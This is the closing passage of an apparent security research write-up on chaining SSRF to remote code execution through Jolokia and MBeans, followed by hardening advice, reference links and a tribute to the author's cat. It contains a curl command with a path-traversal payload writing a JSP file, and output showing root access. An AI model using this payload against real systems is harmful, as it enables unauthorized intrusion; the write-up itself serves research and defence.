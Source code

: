 ```bash
curl -i -k -X PUT 'http://0.0.0.0:8443/api.php?arg1=1&arg2=global/../../../../../jsp.jsp%23' | grep uid | head -n 1

#[20.624s][info][exceptions       ] Exception <a 'java/lang/IllegalArgumentException'{0x00000000c5bc01b8}: 
# No type with name 'winuid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel),11(floppy),20(dialout),26(tape),27(video)
```

<img class="img_med" src="/hacking/ssrf_to_rce_with_jolokia_and_mbeans/win-dance.gif" alt="win-dance">


# Final thoughts

1. Sanitize user inputs. Always. Please...
2. Avoid mixing-up web-servers and the filesystem (shame on php, jsp, asp, cgi, ...)
3. Only expose what is really useful to the application


# Useful ressources

- https://docs.oracle.com/cd/E17802_01/j2se/j2se/1.5.0/jcp/beta1/apidiffs/java/lang/management/ManagementFactory.html
- https://github.com/mpgn/Spring-Boot-Actuator-Exploit
- https://jolokia.org/reference/html/protocol.html#jolokia-operations
- https://www.programmersought.com/article/47451068394/
- https://www.veracode.com/blog/research/exploiting-spring-boot-actuators


# Special tribute

On the 26th of February 2021, my cat passed away at 16 years old due to kidney failure. \
This one is for her. \
I spent so many nights reading and hacking with her by my side, exposing ideas and waiting on her feedbacks. 

She used to catch bugs, and was actually pretty good at it. 

Dear, I'll miss you. A lot. 

<img class="img_med" src="/hacking/ssrf_to_rce_with_jolokia_and_mbeans/choub-young.jpg" alt="choub-young">

<img class="img_med" src="/hacking/ssrf_to_rce_with_jolokia_and_mbeans/choub-old.jpg" alt="choub-old">
